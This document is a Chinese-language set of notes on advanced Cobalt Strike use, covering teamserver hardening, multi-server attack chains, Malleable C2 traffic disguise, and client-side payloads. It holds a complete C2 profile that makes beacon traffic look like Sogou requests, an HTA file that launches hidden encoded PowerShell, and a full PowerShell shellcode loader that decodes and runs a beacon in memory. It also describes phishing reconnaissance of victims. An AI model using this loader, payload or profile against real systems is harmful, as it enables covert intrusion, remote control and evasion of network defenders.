










[TOC]

Referer:
- Cobalt Strike系列wiki https://github.com/aleenzz/Cobalt_Strike_wiki
- Cobalt Strike 4.0官方教程笔记 http://blog.leanote.com/archives/snowming
- cobalt strike 快速上手 [ 一 ] https://klionsec.github.io/2017/09/23/cobalt-strike/ 


# Cobalt Strike 进阶
## 一、CS操作
### 1.1 默认端口-证书-杂项
1. 修改默认端口: `打开teamserver脚本文件划到最后找到-Dcobaltstrike.server_port=50050 把50050修改成你先设置的端口`

2. 修改默认证书

Cobalt Strike 服务端和客户端是通过 SSL 加密通讯的，由于SSL配置文件和代理配置文件由于默认配置导致keystore文件内容通常被用于防火墙识别所以最好修改一下

默认CS生成X509证书命令:
```
keytool -keystore ./cobaltstrike.store
-storepass 123456 -keypass 123456 -genkey
-keyalg RSA -alias cobaltstrike 
-dname "CN=Major Cobalt Strike, OU=AdvancedPenTesting, O=cobaltstrike, L=Somewhere, S=Cyberspace, C=Earth"
```
参数:
- alias 指定别名
- storepass pass 和 -keypass pass 指定密钥
- keyalg 指定算法
- dname 指定所有者信息

KeyTool工具
: Keytool是一个Java数据证书的管理工具,Keytool将密钥（key）和证书（certificates）存在一个称为keystore的文件中,即.store后缀文件中。

### 1.2 分布式操作模型

Cobalt Strike 是为分布式操作而设计的, 客户端可以同时连接到多个团队服务器
- 如 beacon 团队服务器、钓鱼团队服务器、侦查团队服务器、攻击团队服务
器、后渗透团队服务器等多个团队服务器，就是分解整个攻击链
- 每个团队服务器有单独的数据模型和日志



好处:1. 方便团队服务器之间的权限传递, 2. 当连接到多个团队服务器时，Cobalt Strike 可以把所有服务器的数据合并成一
个模型，获取根据时间线的事件排序，方便写报告。

介绍多团队服务器模型的多种架构：

**1. 最基本的多团队服务器模型**



Staging 服务器
: 指最开始用于传递 payload 的那
台攻击机器。也就是获取初始权限的服务器。
特点:
- 获取初始权限的服务器, 承担初始的权限提升和下载持久性程序的功能
- 此服务器有较高暴露风险，可能会被发现、封锁和反制

长控服务器
: 指可以长期稳控的服务器。
- 与 Beacon 以慢速度、低频率保持通信
- 接收持久性的回复，是重回网络的生命线
- 可能会根据需要传递权限给后渗透服务器

后渗透服务器
: 后渗透和横向移动的服务器。

**2. 结合攻击链的多团队服务器模型**
分解整个攻击链，让不同的团队服务器承担不同的攻击环节和功能, 如 beacon 团队服务器、钓鱼团队服务器、侦查团队服务器、攻击团队服务器、后渗透
团队服务器等多个团队服务器。


**3. 具有权限管理单元的多团队服务器模型**


## 二、Malleable C2
- https://wbglil.gitbooks.io/cobalt-strike/content/cobalt-strikekuo-zhan/malleable-c2.html

Cobalt Strike的 Malleable-C2-Profiles配置文件是用来伪装流量,让通讯更加隐蔽和控制其行为的一种方式。

### 2.1 profile使用
demo:
```
set sleeptime "3000";#设置心跳时间(单位ms)
set jitter "10";#设置心跳抖动
set useragent "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36";#User-Agent
#get请求的伪装(get请求通常为受控阶段)
http-get{
    set uri "/hdq=sogou-wsse-3f7bcd0b3ea82268&ie=utf-8&query=1";
    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8";
        header "Host" "www.sogou.com";
        header "Referer" "https://www.qq.com/";
        metadata {
            base64;
            prepend "session=";
            header "Cookie";
        }
    }
    server {
        header "Server" "nginx";
        output {
        print;
        }
    }
}
#post请求伪装(post请求通常为返回结果阶段)
http-post{
    set uri "/hdq=&query=1";
    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8";
        header "Host" "www.sogou.com";
        header "X-Requested-With" "XMLHttpRequest";
        header "Referer" "https://www.qq.com/";
        id {
            parameter "aleen";
        }
        output {
            base64;
            print;
        }
    }
    server {
        header "Server" "nginx";
        output {
        print;
        }
    }
}
```
启动cs `./teamserver ip password test.profile`

利用c2lint模拟受控端和服务端的请求发送数据包。
```
$ ./c2lint ../profiles/test.profile
[+] Profile compiled OK

http-get
--------
GET /hdq=sogou-wsse-3f7bcd0b3ea82268&ie=utf-8&query=1 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Host: www.sogou.com
Referer: https://www.qq.com/
Cookie: session=IzlfMxGUwAXSK3yyh6yc0Q==
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36

HTTP/1.1 200 OK
Server: nginx
X-Log-Ext: antiforbidden=1&exp_1=1&exp_2=1
Content-Length: 64

w....`\.x).n"_.W.....&1...k-..]}p.J@..........}../\..U.G....?.M.

http-post
---------
POST /hdq=&query=1?aleen=94032 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Host: www.sogou.com
X-Requested-With: XMLHttpRequest
Referer: https://www.qq.com/
Content-Length: 24
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36

2JMifmiH4q94p5D13xe+tQ==

HTTP/1.1 200 OK
Server: nginx
Content-Length: 0
```
受控端会和服务端分别发送一个Get请求和一个Post请求，Get请求是心跳包，服务端会返回相应的bacon任务队列中的指令。Post请求是返回受控端的执行结果，通过POST数据的方式返回给服务端，此时服务端只需要响应一个空包即可(Content-Length=0)

控制端和服务端只有tcp连接请求，受控端和服务端才有http请求，用wireshark获取受控端和服务端的http请求可以通过抓取虚拟机网卡的方式来获取。或者在服务端用tcpdump抓取服务端的流量, 命令: `tcpdump -i eth0 -vv -w cs.pcap ip host 59.55.168.84`


> 注意控制端和服务端的通信端口才是50050, 受控端和服务端的通信端口是随机的。


### 2.2 profile编写
基本语法:

1. 设置bacon参数
```
# 用来注释
set 用来设置一些参数的默认值
; 为结束
上述文件中set sleeptime "60000"; 为设置心跳包时间(就是sleep默认时间60秒)
set useragent "xxx" 设置 user-agent等等还有许多这里不都说了
设置参数时一定要使用双引号，不要使用单引号
对双引号转义 \"
其他特殊字符不需要转义
配置文件使用{}将语句和信息组合在一起。语句总是以分号结尾
```
2. 设置get请求(心跳包就是get请求)
```
http-get{
    set uri "/hdq=sogou-wsse-3f7bcd0b3ea82268&ie=utf-8&query=1";
    #设置需要的uri,可以设置多个,用" "(%20)分开
    client {
    	#设置client的get请求
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8";
        header "Host" "www.sogou.com";
        header "Referer" "https://www.qq.com/";
        #添加一些header用来伪造更加逼真的数据包
        metadata {
        	#转递的数据部分处理
            base64;
            #选择编码模式
            prepend "session=";
            #选择数据转换方式
            header "Cookie";
            #数据存储位置
        }
    }
    server {
    	#设置server对get请求的回应
        header "Server" "nginx";
        #设置头
        output {
        	#返回数据处理
        	print;
        }
    }
}
```
3. 设置post请求(client受控端返回数据的请求)
```
http-[get/post] {
	#选择是get还是post
    set uri "/";
    设置uri
    client {
        metadata {
        }
    }
    server {
        header "";
        output {
        }
    }
}
```

## 三、外部C2
我们首先需要知道什么是C2,以及cs的内部c2的通信流程是如何的。

C2服务器
: C2 就是 Command & Control Server 的简称，也就是命令与控制服务器, CS的团队服务器就是一种C2服务器，CS中的C2的通信流程大概为:
1. 通过CS客户都安发送到团队服务器的任何动作都会被弄成计划任务的形式依次排队
2. 而后等着目标服务器上的负载payload来下载这些计划列表中的具体指令去目标机器上执行。
3. 随后再依次将执行完的结果回传给CS团队服务器， 团队服务器再回显至CS客户端。


不足: 现在的CS中(4.0版本之前), 比较常用的C2通信方式是使用方向shell和反向HTTP C2通道。 然后随着时间和防御水平的提高，这种方法势必越难以生效，因此需要外部C2通信方式来替代C2自带的传统通信方式。


> 在 Cobalt Strike 4.0 中，对监听器类型做了扩充，直接加入了外部 C2 的 Payload 选项。外部C2是自CS3.6才引入的功能。

## 四、客户端攻击Payload
在CS基础一中我们介绍了最常见的生成Window Exe可执行文件的payload方式来出发，CS还内置了其他丰富的Payload.

### 4.1 HTML Application
- 如何利用HTA文件在IE/Edge浏览器中执行恶意代码 https://www.anquanke.com/post/id/86626

利用’hta payload’配合’文件下载’模块向目标发送各种钓鱼链接

1. 首先,创建一个hta的payload plugin.hta,这里的payload暂时只支持三种可执行格式,exe,powershell和vba(宏),实际中更推荐用powershell,成功率相对较高,好处就不多说了,免杀,灵活
2. 点击cs工具栏host a file将该文件放到远程Web服务器上给别人下载

3. http://123.206.65.167:84/download/file.ext 下载并且允许文件即可上线。(需要用ie浏览器)

文件内容:
```
<script language="VBScript">
	Function var_func()
		Dim var_shell
		Set var_shell = CreateObject("Wscript.Shell")
		var_shell.run "powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAE...", 0, true
	End Function

	var_func
	self.close
</script>
```

### 4.2 MS Office Macro

### 4.3 Payload Generator
生成基于各类语言的shellcode,如,c,c#,java,python,powershell,ruby,raw,另外,cs也提供了可直接配合veil一起使用的选项,这里还是以最实用的powershell为例,生成好以后,想办法把脚本载入到目标系统中

1. 生成powershell脚本 payload.ps1
2. 执行ps命令:`powershell –exec bypass –Command "& {Import-Module './payload.ps1'}"`

payload.ps1文件内容:
```
Set-StrictMode -Version 2

$DoIt = @'
function func_get_proc_address {
	Param ($var_module, $var_procedure)
	$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
	return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
		[Parameter(Position = 1)] [Type] $var_return_type = [Void]
	)

	$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
	$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
	$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

	return $var_type_builder.CreateType()
}

[Byte[]]$var_code = [System.Convert]::FromBase64String('AhZ3/v7+nncbzyyadazOdazydazqdYzW8Um02M8Bzz5Swp+C/NLePzHz/zkcDqypdazudbzC/y51voZ7Poq0/y6udbbmdabe/y0dwrd1ynX/KM8Bzz5SPzHz/znGHosK/YMGxYPaixymdaba/y2YdfK1dabi/y11+nX/Lne62tqlpZ+npK8BHqahpHXsFXijlpCbiv6WiZeQl6qWsonY+QErzwGpqampqZbEqIdZASsXev7+/qXPN6+vlP2vr5ap+v7+ra6WqXdhOAErFY6lzyyslv78vnqsrKytrK6WFavQxQErdzh9Pa7PAamplAGtqJbT+OaFASt7PvF6Pf/+/s8BewiK+ncHFfeWVDscowErdz+Wu9+gzwErzwGplPmvqK6WSake9QErQf7R/v7HOYpJzwEXb//+/hc3//7+FnUBAQHRk7uqqP6iouK+UxpuYpYdOQmjckx2Exu8Vf/PoxBZDCuiuXwR3fz9lE0XkuVrHxPDUJUFh31KMA2vx7Yxtmca2BjaGxEuLxpUqcgst9Sl/quNm4zTv5mbkIrE3rORhJeSkp/Ry9DO3tapl5CakYmN3rCq3s/O0M7F3qmxqcjK196/jo6Sm6mbnLWXitHLzcnQzcje1rW2qrOy0t6Sl5Wb3rmbnZWR1969loyRk5vRyM3QztDNzM3H0M/NzN6tn5ifjJfRy83J0M3I8/T+3RsZ2dtR+ii+sxCr+0qrtx4g9BNFAnBTOoGGEBIaDW9vOkTFajaejuVT8f/8m7FMjG+xKaAXQgfMEfdvy3uq+bnmGeKLPskUHmYzMiF5UGId7TyGNFi78eATArptrbK0/2PwW4qN2tUD8Hdx0WQGS3xRdRiWIJVXGFOzE2Eey6ErNjkZhDUl2AqatJXTiuA5PdaOpaPhduLH+aIzF34bDUSGoVh5P2kFVws3bJFyJdDzav6WDktcqAErlL6W/u7+/pb+/r7+qZamWq0bASttR/7+/v7/J6+tdxmplv7e/v6tqJbsaHccASt7Poo4dfn/PXs+ixumPRZXAwEBz8zN0MzOyNDIy9DPyMn+jKc+hA==')

for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 254
}

$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
$var_runme.Invoke([IntPtr]::Zero)
'@

If ([IntPtr]::size -eq 8) {
	start-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job
}
else {
	IEX $DoIt
}
```

### 4.4 System Profiler
利用 Web Drive-by 网络钓鱼‘System Profiler’ 模块,搜集目标的各类机器信息,比如,目标用的什么版本的操作系统,什么浏览器,详细版本是多少,有没有装flash,flash具体版本又是多少[低版本可以挂马],看能不能看到目标内网ip段,大概目测估计下目标内网有多大,有了这些基础信息以后,后期我们就可以针对性的写信发信

1. 配置Web服务器和钓鱼链接

2. 打开View/Web log和Application，用户点击钓鱼链接后即可得到目标信息。



监听开启的所有Web服务器都可以在Attack->Web Drive-by->Manager这儿进行看到以及管理等。并且可以在View->Web log看到Web的访问日志。